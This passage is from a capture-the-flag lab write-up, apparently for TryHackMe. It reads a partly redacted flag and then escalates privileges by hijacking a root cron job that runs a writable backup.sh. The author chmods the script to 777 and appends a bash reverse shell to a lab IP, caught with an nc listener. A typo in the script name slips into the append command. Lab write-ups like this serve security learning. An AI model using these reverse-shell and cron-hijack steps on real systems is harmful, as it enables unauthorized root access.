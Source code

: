 So we can get flag in `/var/www/serv4/index.php`
```bash
serv3@web-serv:/var/www/serv3/public$ cat /var/www/serv4/index.php
                                                
THM{Ym---------------------------zZh}
```
### Privilage Escalation

First i do checking crontab and there is have some process backup and its running on root. `/etc/crontab`:
```bash

serv3@web-serv:/var/www/serv3/public$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *  root /home/serv3/backups/backup.sh
```

Since file permission is can be execute, then we can change backup.sh to all user `chmod 777 /home/serv3/backups/backup.sh` and add code execution like this `echo 'bash -i >& /dev/tcp/10.2.47.251/9003 0>&1' >> /home/serv3/backups/backu.sh`, the last of it is prepare the netcat `nc -lvnp 9003`. Wait until we can hit in nc.
![img](/assets/thm_hackerofthehill/bg_5_medium.png)

Then wait it

![img](/assets/thm_hackerofthehill/bg_6_medium.png)
